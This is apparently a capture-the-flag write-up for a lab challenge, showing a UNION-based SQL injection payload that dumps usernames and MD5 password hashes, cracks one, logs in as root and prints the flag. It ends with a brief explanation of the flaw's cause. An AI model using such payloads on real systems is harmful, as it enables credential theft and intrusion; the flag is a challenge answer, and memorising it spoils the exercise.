 # <span style="text-decoration: underline"> DB_DEFAULT </span>

- Tags : `SQL Injection`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : green">Easy</span>
___


# <span style="text-decoration: underline">problem</span>

From the [member](/member.md) challenge we have found that there is a table called `db_default` of the database `Member_Brute_Force` that contains the following columns

- id
- username
- password

Let's try to see if we can findout anything interesting in that database!

# <span style="text-decoration: underline">Solution</span>

## Extract more contents from the table `db_default`

During the [member](/member.md) challenge we have found out what `table` contains what `column` name

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`,  |
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|


Let's try to get the contents of this table

> Remember that if we try to access a table that is not present in the default database but in some other database then we have to use the following syntax `database.table`


```sql
1 AND 1=2 UNION SELECT username, CONCAT(CHAR(124), id, CHAR(124), username, CHAR(124), password, CHAR(124)) AS name FROM Member_Brute_Force.db_default --
```

We get the following informations

|Id|Username|Password|
|--|--|--|
|1|root|3bf1114a986ba87ed28fc1b5884fc2f8|
|2|admin|3bf1114a986ba87ed28fc1b5884fc2f8|

We can see the that we have 2 users contining `md5` hash as their password. We allready know the password for the user **admin** thanks to the [brutforce](/brutforce.md) challenge which is `shadow`. We can easily verify that the `md5` hash of the word `shadow` is `3bf1114a986ba87ed28fc1b5884fc2f8` using the following command on **Linux** `echo -n "shadow" | md5sum` and and **MacOs**  `echo -n "shadow" | md5`

And we can see that the both user password hash is "3bf1114a986ba87ed28fc1b5884fc2f8" thus `shadow` being the password for both of them.

And when we try to login using the following credentials 
|username|password|
|--|--|
|root|shadow|

We get the flag `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`.

> This is the same flag as for the `brutforce` challenge where we logged is as the user **admin** using the password `shadow`

# How to avoid the problem

Sql injection could be a dengerouis problem which could as fas as compromise the whole system. in our situation the programmer used the raw **user input** data inside the query which in turn let the user control what the quert string becomes and so the result is given. This kind of situation can be avoided easily by not using the user input directly in our string.


# Flag

```text
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```
